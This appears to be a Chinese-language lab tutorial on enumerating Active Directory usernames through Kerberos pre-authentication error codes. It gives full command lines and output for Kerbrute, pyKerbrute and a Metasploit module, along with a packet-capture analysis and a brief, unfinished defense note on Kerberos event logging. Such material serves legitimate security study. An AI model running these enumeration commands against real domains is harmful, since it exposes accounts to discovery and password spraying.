

在Kerberos可以在无域内权限的情况下，请求包cname的值对应是用户名，根据响应结果的不同枚举用户名，并进行密码喷洒。

| <font style="color:rgb(66, 66, 66);">用户状态</font> | **<font style="color:rgb(66, 66, 66);">Kerberos 错误信息</font>** |
| --- | --- |
| <font style="color:rgb(66, 66, 66);">用户启用</font> | <font style="color:rgb(66, 66, 66);">KDC_ERR_PREAUTH_REQUIRED</font> |
| <font style="color:rgb(66, 66, 66);">用户锁定</font> | <font style="color:rgb(66, 66, 66);">KDC_ERR_CLIENT_REVOKED</font> |
| <font style="color:rgb(66, 66, 66);">用户不存在</font> | <font style="color:rgb(66, 66, 66);">KDC_ERR_C_PRINCIPAL_UNKNOWN</font> |

# 一、域内用户名枚举工具
## 1、Kerbrute
```plain
(base) PS C:\Security\github\kerbrute> .\kerbrute_windows_386.exe userenum --dc 192.168.30.2 -d sec.com .\usernames.txt

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 08/19/24 - Ronnie Flathers @ropnop

2024/08/19 00:47:26 >  Using KDC(s):
2024/08/19 00:47:26 >   192.168.30.2:88
2024/08/19 00:47:26 >  [+] VALID USERNAME:       test1@sec.com
2024/08/19 00:47:26 >  [+] VALID USERNAME:       test2@sec.com
2024/08/19 00:47:26 >  [+] VALID USERNAME:       administrator@sec.com
2024/08/19 00:47:36 >  Done! Tested 81481 usernames (3 valid) in 10.395 seconds
(base) PS C:\Security\github\kerbrute>
```

## 2、pyKerbrute
```plain
C:\root\tools\pyKerbrute> python2 EnumADUser.py 192.168.30.2 sec.com usernames.txt tcp
[*] DomainControlerAddr: 192.168.30.2
[*] DomainName:          SEC.COM
[*] UserFile:            usernames.txt
[*] Using TCP to enumerate valid Active Directory accounts.
[+] Valid user: test1
[+] Valid user: administrator

```

注：不建议使用，较慢，可能少结果

## 3、MSF模块
```plain
msf6 > use auxiliary/gather/kerberos_enumusers
msf6 auxiliary(gather/kerberos_enumusers) > set domain sec.com
domain => sec.com
msf6 auxiliary(gather/kerberos_enumusers) > set rhosts 192.168.30.2
rhosts => 192.168.30.2
msf6 auxiliary(gather/kerberos_enumusers) > set user_file /root/tools/pyKerbrute/usernames.txt
user_file => /root/tools/pyKerbrute/usernames.txt
msf6 auxiliary(gather/kerberos_enumusers) > exploit

[*] Using domain: SEC.COM - 192.168.30.2:88      ...
[*] 192.168.30.2 - User: "3d" user not found
[*] 192.168.30.2 - User: "a" user not found
[*] 192.168.30.2 - User: "a1" user not found
[*] 192.168.30.2 - User: "aa" user not found
[*] 192.168.30.2 - User: "aaberg" user not found
[*] 192.168.30.2 - User: "aachen" user not found
[*] 192.168.30.2 - User: "aalborg" user not found
[*] 192.168.30.2 - User: "aalesund" user not found
[*] 192.168.30.2 - User: "aalii" user not found
[*] 192.168.30.2 - User: "aalst" user not found
[*] 192.168.30.2 - User: "aalto" user not found

```

注：速度仅次于Kerbrute，可能是线程原因

# 二、域内用户名枚举抓包分析
使用msf模块kerberos_enumusers，且字典放入三个用户名，administrator存在且有效，hack存在但禁用，error1不存在，启动wireshark抓包。

```plain
smsf6 >use auxiliary/gather/kerberos_enumusers
msf6 auxiliary(gather/kerberos_enumusers) > set domain sec.com
domain => sec.com
msf6 auxiliary(gather/kerberos_enumusers) > set rhosts 192.168.30.2
rhosts => 192.168.30.2
msf6 auxiliary(gather/kerberos_enumusers) > set user_file /root/tmp/test.txt
user_file => /root/tmp/test.txt
msf6 auxiliary(gather/kerberos_enumusers) > exploit

[*] Using domain: SEC.COM - 192.168.30.2:88      ...
[+] 192.168.30.2 - User: "administrator" is present
[!] No active DB -- Credential data will not be saved!
[-] 192.168.30.2 - User: "hack" account disabled or expired
[*] 192.168.30.2 - User: "error1" user not found
[*] Auxiliary module execution completed

```

可以得出结论，三种用户情况会有不同的Kerberos响应



# 三、域内用户名枚举防御
1、在注册表启用Kerberos事件日志

理论上启动后，事件记录器应该有日志，暂时找不出来为什么没有出现4768日志ID的原因。

参考：[https://learn.microsoft.com/zh-cn/troubleshoot/windows-server/active-directory/enable-kerberos-event-logging](https://learn.microsoft.com/zh-cn/troubleshoot/windows-server/active-directory/enable-kerberos-event-logging)